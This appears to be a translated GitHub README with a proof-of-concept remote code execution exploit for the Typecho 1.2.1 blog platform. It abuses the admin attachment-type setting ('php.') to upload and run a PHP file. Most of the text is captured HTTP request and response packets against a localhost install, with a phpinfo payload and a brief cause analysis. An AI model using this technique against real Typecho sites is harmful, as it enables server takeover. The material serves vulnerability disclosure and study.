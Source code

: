 # Typecho-v1.2.1-RCE
typecho-v1.2.1-RCE

Edición traducida de la fuente [https://github.com/MentalityXt/typecho-v1.2.1-RCE]

## Vulnerability to reproduce
Log in to the backend of the website. Locate the /admin/options-general.php file and add 'php.' to the '其他格式' `otros formatos` section at the bottom. Then click on '保存设置' `Guardar Ajustes` 


```php
POST /typecho/index.php/action/options-general?_=7f7f3849a454840627316bb52364d2fc HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 262
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/typecho/admin/options-general.php
Cookie: 49687d6f50b4bcdd180e408f21e5efa5__typecho_uid=1; 49687d6f50b4bcdd180e408f21e5efa5__typecho_authCode=%24T%24uKyiUEUfT3f8a523484b8bf9731cc8c1d2a8b6aa7; PHPSESSID=s25t07f2di5m8kfc5vuqf5bg7l; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=1910606b29d5c2ce; DedeLoginTime=1686923767; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=64371f6768b13b59; _csrf_name_6f6a18a7=ca33b084396b5d22e954fe124954e4dc; _csrf_name_6f6a18a71BH21ANI1AGD297L1FF21LN02BGE1DNG=c51a2607b5a3e048
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

title=Hello+World&siteUrl=http%3A%2F%2F127.0.0.1%2Ftypecho&description=Your+description+here.&keywords=typecho%2Cphp%2Cblog&allowRegister=0&allowXmlRpc=2&timezone=28800&attachmentTypes%5B%5D=%40image%40&attachmentTypes%5B%5D=%40other%40&attachmentTypesOther=php.
```

![web](./typecho-V1.2.1_rce_01.png)

Visit the URL 'http://127.0.0.1/typecho/admin/write-post.php'. This is based on the current directory where I have set up. The actual directory is 'admin/write-post.php'. After entering, click on the '附件' `apéndice` button on the right side, and then click the highlighted button '选择文件上传' `seleccionar carga de archivo`. Upload a random PHP file here and the system will not block it. After successful upload, the file can still be executed and the PHP address will be returned.

![web](./typecho-V1.2.1_rce_02.png)

The following is the request packet.

```php
POST /typecho/index.php/action/upload?_=d84b30765596739f0c2d3724d7971184 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------163606809438821006984144374022
Content-Length: 519
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/typecho/admin/write-post.php
Cookie: 49687d6f50b4bcdd180e408f21e5efa5__typecho_uid=1; 49687d6f50b4bcdd180e408f21e5efa5__typecho_authCode=%24T%24uKyiUEUfT3f8a523484b8bf9731cc8c1d2a8b6aa7; PHPSESSID=s25t07f2di5m8kfc5vuqf5bg7l; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=1910606b29d5c2ce; DedeLoginTime=1686923767; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=64371f6768b13b59; _csrf_name_6f6a18a7=ca33b084396b5d22e954fe124954e4dc; _csrf_name_6f6a18a71BH21ANI1AGD297L1FF21LN02BGE1DNG=c51a2607b5a3e048
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------163606809438821006984144374022
Content-Disposition: form-data; name="name"

20230616121905.php
-----------------------------163606809438821006984144374022
Content-Disposition: form-data; name="file"; filename="phpinfo.php"
Content-Type: application/octet-stream

<?php
phpinfo();
?>
-----------------------------163606809438821006984144374022--
```

The following is the response packet.

```php
HTTP/1.1 200 OK
Date: Fri, 16 Jun 2023 14:51:24 GMT
Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b mod_fcgid/2.3.9a mod_log_rotate/1.02
X-Powered-By: PHP/7.3.4
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Connection: close
Content-Type: application/json; charset=UTF-8
Content-Length: 303

["http:\/\/127.0.0.1\/typecho\/usr\/uploads\/2023\/06\/3042336957.php",{"cid":8,"title":"phpinfo.php","type":"php","size":21,"bytes":"1 Kb","isImage":false,"url":"http:\/\/127.0.0.1\/typecho\/usr\/uploads\/2023\/06\/3042336957.php","permalink":"http:\/\/127.0.0.1\/typecho\/index.php\/attachment\/8\/"}]
```

The requested URL is 'http://127.0.0.1/typecho/usr/uploads/2023/06/3042336957.php'.

![web](./typecho-V1.2.1_rce_03.png)

## Vulnerability Analysis
The website filtered extensions such as php, php5, php3, etc., but forgot about php. It can still be parsed successfully on Windows.
